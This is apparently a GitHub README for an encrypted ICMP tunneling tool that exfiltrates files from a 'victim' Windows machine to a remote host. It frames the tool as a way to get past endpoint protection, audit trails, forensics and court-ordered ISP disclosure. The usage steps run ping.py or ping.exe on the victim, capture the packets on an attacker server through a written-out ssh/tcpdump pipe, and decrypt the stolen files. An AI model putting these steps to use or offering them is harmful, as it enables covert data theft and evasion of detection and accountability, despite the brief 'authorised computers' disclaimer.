 # Overview

Based on https://github.com/DhavalKapil/icmptunnel https://github.com/lucadibello/WeaponizedPing 

Based on MITRE Tactics: T1572 Protocol Tunneling, T1030 Data Transfer Size Limits, T1567 Exfiltration Over Web Service, T1090 Multi-hop Proxy

Encrypted version for ICMP tunneling. 

Exfiltration of data in a restricted network environment can be a tough thing to do. When you do things like plugging USB, moving and sending files across networks to yourself. It all leaves an audit trail. This audit trail can be even stronger when used with powerful endpoint protection tools like CrowdStrike. Even when you try to cover your tracks and footprints, using VPNs and deleting logs files, there is still a possibility of being traced back to you when digital forensics is being conducted. This could result in the court ordering ISP, service providers to give up subscriber’s VPN information. 

ICMP packets are usually used for troubleshooting throughout networks or to check whether hosts are alive. We utilise this to send information or files out to other public endhosts.  

This is for testing purposes only. Use it at your own risk and only at authorised computers. Some of the stuff are hardcoded so better look before using anything. Thanks

## Topology 
Exfiltration of data scenario
![ICMP an0nymizer (1)](https://user-images.githubusercontent.com/91510432/199385807-3f38685b-4c55-4eba-bd30-271af9bc2d56.png)

### Overview of an encrypted packet
![Screenshot_3](https://user-images.githubusercontent.com/91510432/199401514-62c5d4ef-88d5-4632-8312-259aee4c9328.png)


### Usage 
Two ways to run. 
- Through the exe file. You do not need to install python and its dependencies. 
- The normal python method

1. `pip3 install -r requirements.txt` (Only need if you use python script method)

2. Move the Documents folder to your Desktop (Windows victim)

3. Using another Linux machine. You can use VPN or proxychains here whatever.
    - Move your private.pem key here.
    - Move decryptor.py here.

4. Sniffing of packets and decrypting it (Sniffing and reconstructing files or information)
    - If you are sniffing through SSH from a server. Run the command `ssh -i webserver.pem root@<ip address> tcpdump -U -s0 -w - 'not port 22' | wireshark -k -i -`
    - If you are sniffing through a normal private network. Run wireshark and save the pcap file.
    - Copy the temporary wireshark pcap filepath output
    - On the victim machine, execute the python command `python ./ping.py` OR run the ping.exe file located in the dist folder.
    - Monitor wireshark for ICMP pings with bigger than usual data blocks. Stop when all packets are sent
    - Run the command to start the reconstructing files with the filepath copied `python ./decryptor.py -p <paste copied filepath here>`

